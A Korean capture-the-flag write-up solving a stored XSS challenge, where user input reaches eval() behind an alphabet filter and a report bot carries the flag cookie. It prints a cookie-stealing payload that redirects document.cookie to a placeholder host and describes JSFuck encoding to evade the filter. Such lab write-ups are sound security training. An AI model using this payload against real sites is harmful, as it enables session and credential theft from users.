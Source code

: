 <h1>1. 웹페이지 접속</h1>
 

![image](./image/babyxss2.png)
 

대상 웹사이트에 접속하였을 때의 메인화면이다. Baby's music, Saved, Go to Report 세가지 메뉴가 존재한다.

 

먼저 Baby's music 메뉴에 접근해보았을 때 메뉴는 다음과 같다.

 

![image](./image/babyxss3.png)
 

입력할 수 있는 입력창과 확인 버튼 그리고 save 버튼이 존재하였으며 일단 임의의 문자열 입력 후 확인 버튼을 클릭해보았다.

 

![image](./image/babyxss4.png)

 

nope! 이라는 메시지가 출력되었다.

 

![image](./image/babyxss5.png)

 

임의의 숫자를 입력 후 확인 버튼 클릭 시 입력한 숫자가 포함된 문자열이 출력되는 것을 확인하였으며 save 버튼 클릭 시 id를 발급받을 수 있었다.

 

다음은 Saved 메뉴에 접근해보았다.

 

![image](./image/babyxss6.png)

 

?id= 라는 문자열이 출력되었다. ?가 붙어있는 것을 보고 파라미터인 것 같다는 생각이 들어 url에 파라미터를 입력해보았다.

 

![image](./image/babyxss7.png)
 

id 파라미터에 방금 발급받았던 id 값을 입력하였더니 사용자가 입력한 값이 포함되어 저장된 내용이 출력되었다.

 

다음은 Go to Report 메뉴에 접근해보았다.

 
![image](./image/babyxss8.png)

 

입력창과 제출 버튼이 있어 임의의 문자열 입력 후 제출 버튼을 클릭해보았다.

 

![image](./image/babyxss9.png)
 

Reported! 메시지가 출력되었는데 어떤 기능이 실행되는지는 알 수 없었다.

 <br>

<h1>2. 코드 분석</h1>
 

![image](./image/babyxss10.png)
 

cookies 변수에 FLAG 가 저장되어있는 것을 알 수 있다.

 

![image](./image/babyxss11.png)
 

이 코드를 통해 Go to Report 메뉴의 기능을 확인할 수 있었다. cookies 변수에 저장된 값을 이용하여 쿠키를 세팅하며 요청 패킷의 url 파라미터를 통해 입력받은 url로 서버에서 접근하게 된다는 것을 알 수 있다. 프록시를 통해 확인한 url 파라미터 값은 다음과 같다.

 

![image](./image/babyxss12.png)
 

 

다음으로 주목할 부분은 Baby's music 메뉴의 소스코드이다.

 

![image](./image/babyxss13.png)
 

입력 받은 값을 정규 표현식을 통해 필터링하는 부분이 존재하며 필터링되지 않는다면 eval 함수의 인자값에 사용자가 입력한 값이 포함되는 것을 확인하였다. 이를 통해 악의적인 스크립트를 삽입할 수 있을 것이라고 생각하였다.

 <br>

<h1>3. 공격 시나리오</h1>
 

웹사이트의 메뉴를 확인하고 코드를 분석한 결과 다음과 같은 시나리오를 생각해보았다.

 

1. Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

2. Go to Report 메뉴에서 saved?id='save_id' 를 입력하여 서버 측에서 악의적인 스크립트가 삽입된 페이지에 접근하도록 하여 쿠키를 탈취한다.

 
<br>
 

<h1>4. 공격 실행</h1>
 

1) Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

Baby's music 메뉴에서 다음과 같은 스크립트를 삽입하고자 한다.

 

```
',location.href="request_url/"+document.cookie,'
```
 

스크립트의 앞부분에 ', 과 뒷부분에는 ,' 가 존재하는 이유는 Baby's music 에서 입력한 값은 eval 함수의 인자에 삽입되기 때문이다.

 

```
eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
```

 

입력한 값이 ${age} 에 삽입되게 되는데 악의적인 스크립트가 삽입된 결과는 다음과 같다.

 

```
eval(`msg.innerHTML='This is recommended album for ',location.href="request_url/"+document.cookie,'-year-old.'`);
``` 

 

이렇게 삽입되면 eval 함수를 통해 삽입된 악의적인 스크립트가 실행된다.

 

하지만 알파벳은 필터링되어 스크립트가 삽입될 수 없으므로 다른 방법으로 삽입해야한다.

 

![image](./image/babyxss14.png)
 

삽입할 스크립트를 JSFuck 기법으로 인코딩하여 삽입한다.

 

먼저 임의의 숫자를 입력 후 save 버튼을 클릭한다.

 

![image](./image/babyxss15.png)
 

프록시 도구에서 스크립트를 삽입한다.

 

![image](./image/babyxss16.png)
 

발급받은 id 값을 확인한다.

![image](./image/babyxss17.png)
 

Go to Report 메뉴로 이동하여 saved?id='발급받은 id' 를 입력 후 제출 버튼을 클릭한다.

 

![image](./image/babyxss18.png)
 

 

쿠키 탈취에 성공하여 flag를 확인하였다.

 

![image](./image/babyxss19.png)
